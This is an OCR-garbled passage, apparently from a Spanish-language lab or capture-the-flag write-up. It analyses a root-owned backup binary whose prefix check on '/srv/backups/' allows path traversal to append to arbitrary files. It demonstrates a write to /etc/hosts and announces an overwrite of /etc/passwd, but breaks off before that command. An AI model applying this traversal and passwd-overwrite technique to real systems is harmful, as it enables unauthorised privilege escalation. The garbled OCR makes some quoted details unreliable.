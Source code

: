 i f ( ! path . starts\_with ("/ srv /backups /")){

std : : cout <<"The f i l e must be i n s i d e the / srv /backups directory !\ n ";

}

e l s e {

std : : ofstream backup\_file ( path , std : : ios\_base : : app ) ;

backup\_file<<line <<’\n ’ ;

return 0;

}

}

El binario consiste pues en tomar una cadena de texto y agregarla a un

archivo cuya ubicación es introducida por el usuario, y si este archivo no existe,

se crea. Sin embargo, la ubicación del archivo debe comenzar con /srv/backups

. Es importante mencionar los permisos de los archivos en dicho directorio son

−rw−r−−r−− 1 root py

4 May 9 14:39 foo

−rw−r−−r−− 1 root root 961 May 9 14:50 ree

donde ree es un archivo previamente existente en el disco duro, mientras

que foo ha sido creado por el atacante. Podemos observar que dichos archivos

sólo tienen permisos de lectura para un usuario normal, por lo que no es posible

crear un script, también se comprobó que no se pueden cambiar los permisos de

los archivos existentes en este directorio.

Ya que se usa el método std::string, las entradas de datos no son vulner-

ables a un ataque de stack overﬂow

Sin embargo, podemos tralizar un transversal path attack para escribir en

cualquer ubicación indroduciendo un input del tipo

[ py@archlinux secret\_stuff ] $ ./ backup

Enter a l i n e of text to back up : hola networks f i l e

Enter a f i l e to append the text to (must be i n s i d e the / srv /backups directory ) :

\# Static table lookup for hostnames .

\# See hosts (5) for d e t a i l s .

hola networks f i l e

Esto nos permite sobreescribir el archivo /etc/passwd de la manera

[ py@archlinux secret\_stuff ] $ ./ backup
